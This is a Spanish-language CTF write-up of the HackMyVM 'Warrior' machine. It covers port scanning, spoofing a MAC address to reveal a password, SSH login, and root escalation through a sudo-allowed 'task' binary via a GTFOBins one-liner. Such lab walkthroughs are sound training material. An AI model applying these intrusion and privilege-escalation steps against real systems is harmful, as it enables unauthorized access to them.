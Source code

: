 ```yaml
---
layout      : post
title       : "Warrior - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/Warrior-HackMyVM/portada.png
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


Warrior es una máquina de nivel fácil de la plataforma HackMyVm en la que tendremos una explotación diferente a lo que estamos acostumbrados y una escalada a través de un binario SUID

# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 7 disallowed entries 
| /admin /secret.txt /uploads/id_rsa /internal.php 
|_/internal /cms /user.txt
|_http-server-header: nginx/1.18.0
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos tenemos un robots.txt

Abro el navegador y comienzo a explorar el servidor web y sus rutas

Una vez accedo a la ip encuentro lo siguiente:


![](/assets/images/HMV/Warrior-HackMyVM/warrior.png)


Si revisamos el archivo robots.txt encontramos varias rutas

```bash
Disallow:/admin
Disallow:/secret.txt
Disallow:/uploads/id_rsa
Disallow:/internal.php
Disallow:/internal
Disallow:/cms
Disallow:/user.txt
```

Voy accediendo una a una a todas las rutas, algunas me devuelven el error 404 y 403.

Excepto las rutas /user.txt … /secret.txt … /internal.php

En la ruta */user.txt* encontramos la palabra *loco* que podría ser un usuario del sistema.

En la ruta */secret.txt* encontramos algo más curioso

`0123456789ABCDEF`

Estas letras y números podrían servirnos posteriormente.

Finalmente reviso la ruta */internal.php* y me encuentro con lo siguiente.

![](/assets/images/HMV/Warrior-HackMyVM/internal.png)

Y tenemos otro posible usuario, *bro*

Además de eso nos dice que debemos cambiar la MAC interna como nos muestra *00:00:00:00:00:a?*

Pero nos falta una caracter al final de la dirección MAC, aqui es donde entra en juego el archivo secret.txt

Fui probando una a una hasta que di con la dirección correcta.

![](/assets/images/HMV/Warrior-HackMyVM/mac.png)

Una vez cambiada la dirección fisica de nuestra máquina atacante volvemos a acceder a la ruta /internal.php y encontramos una contraseña.

`Good!!!!!<!-- Your password is: Zurviv0r1 -->`

Ahora podemos acceder por ssh usando uno de los usuarios encontrados y la contraseña.

```bash
❯ ssh bro@192.168.0.31
The authenticity of host '192.168.0.31 (192.168.0.31)' can't be established.
ECDSA key fingerprint is SHA256:EHC+cRjEjv6OiTStHF158ViuvMIv/FYjdAKpF4L0tkY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.31' (ECDSA) to the list of known hosts.
bro@192.168.0.31's password: 
Linux warrior 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb  8 04:03:20 2022 from 192.168.1.51

bro@warrior:~$ id
uid=1000(bro) gid=1000(bro) groups=1000(bro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

# ESCALADA DE PRIVILEGIOS

Ejecuto `sudo -l` para comprobar si podemos ejecutar algun binario como root sin contraseña.

Si usamos directamente `sudo -l` nos arroja un mensaje de que el comando no se ha encontrado asique pruebo con la ruta completa de sudo.

```bash
bro@warrior:~$ /usr/sbin/sudo -l
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task
```

Podemos ejecutar el binario task como root sin contraseña asique me dirijo a la web de GTFOBINS.


![](/assets/images/HMV/Warrior-HackMyVM/suid.png)

```bash
bro@warrior:~$ /usr/sbin/sudo /usr/bin/task execute /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Un CTF un poco diferente pero brutal como siempre creado por SML.

